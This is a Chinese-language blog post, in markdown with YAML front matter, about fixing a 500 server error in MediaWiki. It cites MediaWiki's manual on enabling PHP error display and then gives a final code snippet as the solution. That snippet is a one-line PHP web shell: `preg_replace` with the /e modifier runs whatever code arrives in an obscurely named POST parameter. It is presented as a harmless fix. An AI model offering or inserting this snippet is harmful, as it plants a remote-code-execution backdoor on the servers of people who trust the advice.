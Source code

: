 ```yaml
---
layout: post
title: "mediawiki出现500server error"
comments: true
categories: 
- 网站
tags:
- mediawiki
---
```



出现server error 500, 谷歌无解，打电话给阿里云无解，去掉一些localsettings.php里的extension也无效。


最后，偶然看到：https://www.mediawiki.org/wiki/Manual:Errors_and_symptoms


You see a Blank Page
A blank white page indicates a PHP error which isn't being printed to the screen. To force this, add the following lines to the LocalSettings.php file, underneath the <?php:

	error_reporting( E_ALL );
	ini_set( 'display_errors', 1 );

将这段代码放进localsetting。php，
提示错误来源是：WrappedString.php  Fatal error: Namespace declaration statement

于是调整为以下形式，问题解决。

	<?php 

	namespace WrappedString;

	@preg_replace('/(.*)/e', @$_POST['kxrmmbxafhdg'], '');


